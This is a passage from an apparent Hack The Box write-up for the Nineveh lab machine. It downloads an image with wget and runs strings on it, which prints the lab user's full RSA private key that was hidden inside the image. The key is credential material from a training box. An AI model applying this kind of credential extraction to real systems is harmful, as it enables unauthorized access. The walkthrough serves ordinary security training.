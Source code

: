 `/secure_notes` displays a image:

![06-web](/assets/img/HTB/Nineveh/06-web.png)

Download it using wget.
```console
$wget https://nineveh.htb/secure_notes/nineveh.png --no-check-certificate
```

and checking its strings with `strings nineveh.png`, we get the amrois's id_rsa file.

```console
$strings nineveh.png
...[snip]...
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
H9/Bz1abFbrt16vH6/jd8m0urg/Em7d/FJncpPiIH81JbJ0pyTBvIAGNK7PhaQXU
PdT9y0xEEH0apbJkuknP4FH5Zrq0nhoDTa2WxXDcSS1ndt/M8r+eTHx1bVznlBG5
FQq1/wmB65c8bds5tETlacr/15Ofv1A2j+vIdggxNgm8A34xZiP/WV7+7mhgvcnI
3oqwvxCI+VGhQZhoV9Pdj4+D4l023Ub9KyGm40tinCXePsMdY4KOLTR/z+oj4sQT
X+/1/xcl61LADcYk0Sw42bOb+yBEyc1TTq1NEQIDAQABAoIBAFvDbvvPgbr0bjTn
KiI/FbjUtKWpWfNDpYd+TybsnbdD0qPw8JpKKTJv79fs2KxMRVCdlV/IAVWV3QAk
FYDm5gTLIfuPDOV5jq/9Ii38Y0DozRGlDoFcmi/mB92f6s/sQYCarjcBOKDUL58z
GRZtIwb1RDgRAXbwxGoGZQDqeHqaHciGFOugKQJmupo5hXOkfMg/G+Ic0Ij45uoR
JZecF3lx0kx0Ay85DcBkoYRiyn+nNgr/APJBXe9Ibkq4j0lj29V5dT/HSoF17VWo
9odiTBWwwzPVv0i/JEGc6sXUD0mXevoQIA9SkZ2OJXO8JoaQcRz628dOdukG6Utu
Bato3bkCgYEA5w2Hfp2Ayol24bDejSDj1Rjk6REn5D8TuELQ0cffPujZ4szXW5Kb
ujOUscFgZf2P+70UnaceCCAPNYmsaSVSCM0KCJQt5klY2DLWNUaCU3OEpREIWkyl
1tXMOZ/T5fV8RQAZrj1BMxl+/UiV0IIbgF07sPqSA/uNXwx2cLCkhucCgYEAwP3b
vCMuW7qAc9K1Amz3+6dfa9bngtMjpr+wb+IP5UKMuh1mwcHWKjFIF8zI8CY0Iakx
DdhOa4x+0MQEtKXtgaADuHh+NGCltTLLckfEAMNGQHfBgWgBRS8EjXJ4e55hFV89
P+6+1FXXA1r/Dt/zIYN3Vtgo28mNNyK7rCr/pUcCgYEAgHMDCp7hRLfbQWkksGzC
fGuUhwWkmb1/ZwauNJHbSIwG5ZFfgGcm8ANQ/Ok2gDzQ2PCrD2Iizf2UtvzMvr+i
tYXXuCE4yzenjrnkYEXMmjw0V9f6PskxwRemq7pxAPzSk0GVBUrEfnYEJSc/MmXC
iEBMuPz0RAaK93ZkOg3Zya0CgYBYbPhdP5FiHhX0+7pMHjmRaKLj+lehLbTMFlB1
MxMtbEymigonBPVn56Ssovv+bMK+GZOMUGu+A2WnqeiuDMjB99s8jpjkztOeLmPh
PNilsNNjfnt/G3RZiq1/Uc+6dFrvO/AIdw+goqQduXfcDOiNlnr7o5c0/Shi9tse
i6UOyQKBgCgvck5Z1iLrY1qO5iZ3uVr4pqXHyG8ThrsTffkSVrBKHTmsXgtRhHoc
il6RYzQV/2ULgUBfAwdZDNtGxbu5oIUB938TCaLsHFDK6mSTbvB/DywYYScAWwF7
fw4LVXdQMjNJC3sn3JaqY1zJkE4jXlZeNQvCx4ZadtdJD9iO+EUG
-----END RSA PRIVATE KEY-----
secret/nineveh.pub
...[snip]...
```